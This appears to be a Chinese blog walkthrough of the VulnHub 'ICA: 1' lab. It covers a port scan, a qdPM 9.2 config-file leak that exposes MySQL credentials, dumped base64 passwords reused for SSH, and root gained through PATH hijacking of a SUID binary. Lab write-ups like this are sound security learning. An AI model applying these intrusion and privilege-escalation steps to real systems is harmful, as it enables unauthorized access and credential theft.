 ```yaml
---
title: vulnhub 做题 ICE:01
tags: [penetration]
date: 2024-10-14 00:00:00
categories: [penetration]
excerpt: day3
---
```



## vulnhub 做题 ICA: 1

### 扫描

```zsh
─$ nmap -p 1-65535 -sV 192.168.169.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-13 23:46 EDT
Nmap scan report for 192.168.169.131
Host is up (0.00020s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
3306/tcp  open  mysql   MySQL 8.0.26
33060/tcp open  mysqlx?
1 service unrecognized despite returning data ..........
```

开了ssh和mysql，80的web是一个通过邮件登录的界面，显示这个软件叫做qdPM，版本是9.2

```zsh
qdPM 9.2 - Cross-site Request Forgery (CSRF)     php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)   php/webapps/50176.txt
```

第一个csrf的漏洞没看懂😭😭😭，第二个说是要访问这个网站的一个路径就能拿到sql的账号

```
The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download
```

这个yml里写了账号是qdpmadmin，密码是UcVQCMQk2STVeS6J

登录sql的时候还遇到了点问题，直接链接会报错`ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain`，然后搜了一下加个参数，`--ssl-mode=DISABLED`，又说没有这个参数，然后又试了一下`--skip-ssl`，居然好使了😶‍🌫️（但这个参数说是很旧版的参数）

> 然后我打开了qdpm这个数据库里一个叫attachments的表的时候，sql直接崩了，web也没了，只能重启靶机😢

然后tqdm里这个user的表是空的，其他的似乎也没什么有价值的信息，只能换一个数据库看看

staff这里存储了叫做用户和密码的表

```sql
MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+

```

密码显然是base64加密过后的，然后由于web是要用邮箱登录，肯定不是这个的密码，所以只能是开着的ssh密码，但是登陆时又遇到了问题（怎么这么多问题😅），最后去看了题解才知道，用户名要转换成小写😶‍🌫️😶‍🌫️😶‍🌫️

只有travis和dexter两个ssh能登陆的

```zsh
travis@debian:/home$ ls
dexter  travis
```

然后在travis的目录发现了一个flag
```zsh
travis@debian:/home/travis$ cat user.txt
ICA{Secret_Project}
```

而dexter的目录下有进一步的提示
```zsh
dexter@debian:~$ cat note.txt
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.
```

在opt下有一个 get_access 的程序，反汇编（至于怎么找到这里的，有的题解说是用`find / -perm -u=s 2>/dev/null`寻找能够以root权限执行的文件）

![](/img/pene/5.png)

可以通过替换cat可执行文件为/bin/bash来获取root权限，首先创建一个叫做cat的内容为/bin/bash的文本，然后chmod 777，然后添加到环境变量

```zsh
dexter@debian:/home/dexter$ export PATH=/home/dexter:$PATH
dexter@debian:/home/dexter$ echo $PATH
/home/dexter:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

保证他在/usr/bin前边就行。提权成功之后要删掉才能正常输出（也有说可以用more命令的）

```zsh
root@debian:/root# rm /home/dexter/cat
root@debian:/root# cat ./root.txt 
ICA{Next_Generation_Self_Renewable_Genetics}
```
